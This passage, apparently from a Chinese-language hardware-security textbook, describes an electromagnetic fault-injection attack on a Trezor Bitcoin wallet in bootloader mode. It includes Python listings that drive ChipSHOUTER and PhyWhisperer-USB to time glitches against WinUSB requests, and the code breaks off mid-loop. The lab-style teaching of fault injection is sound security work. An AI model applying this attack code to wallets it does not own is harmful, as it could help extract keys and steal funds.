 图 7-6：完整设置，包含 Trezor（中）、ChipSHOUTER（左）和 PhyWhisperer-USB（右）

### 回顾故障注入的代码

清单 7-11 和 7-12 中的脚本（为可读性分割）允许我们对设备进行电源循环，发出 WinUSB 请求，并基于 PhyWhisperer-USB 中检测到的 WinUSB 请求触发 ChipSHOUTER。

```
#PhyWhisperer-USB Setup
import time
import usb.core
import phywhisperer.usb as pw
phy = pw.Usb()
phy.con()

delay_start = phy.us_trigger(1.0) # Start at 1us from trigger
delay_end = phy.us_trigger(5.5) # Sweep to 5.5us from trigger

delay = delay_start
go = True

golden_valid = False

#Re-init power cycles the target when it’s fully crashed
1 def reinit():
    phy.set_power_source("off") 
    time.sleep(0.25)
    phy.reset_fpga()
    phy.set_capture_size(500)
    phy.set_power_source("host")
    time.sleep(0.8)

fails = 0
```

清单 7-11：当 Trezor 处于引导加载程序模式时，简单的脚本部分 1，用于故障注入 Trezor 比特币钱包

在此设置中，我们使用了 PhyWhisperer-USB 目标设备的电源控制功能，正如`reinit()`函数 1 所示，当调用时会对目标进行电源循环。此功能在目标崩溃时执行错误恢复。一个更稳健的脚本可能会在每次尝试时都进行电源循环，但这里有一个权衡，因为电源循环是循环中最慢的操作。我们可以尝试通过仅在目标停止响应时进行电源循环来执行更快的故障循环，但这样做的权衡是我们无法保证每次设备都以相同的状态启动。

清单 7-12 显示了攻击的实际循环体。

```
while go:
    if delay > delay_end:
        print("New Loop Entered")
        delay = delay_start

    #Re-init on first run through (golden_valid is False) or if a number of fails
    if golden_valid is False or fails > 10:
        reinit()
        fails = 0
    phy.set_trigger(delays=[delay], widths=[12]) #12 is width of EMFI pulse 1
    phy.set_pattern(pattern=[0xC1, 0x21]) 2
    dev = None

    try:
        dev = usb.core.find(idProduct=0x53c0)
        dev.set_configuration() 3
    except:
        #If we fail multiple times, eventually triggers DUT power cycle
        fails += 1
        continue

    #Glitch only once we've recorded the 'golden sample' of expected output
    if golden_valid is True:
```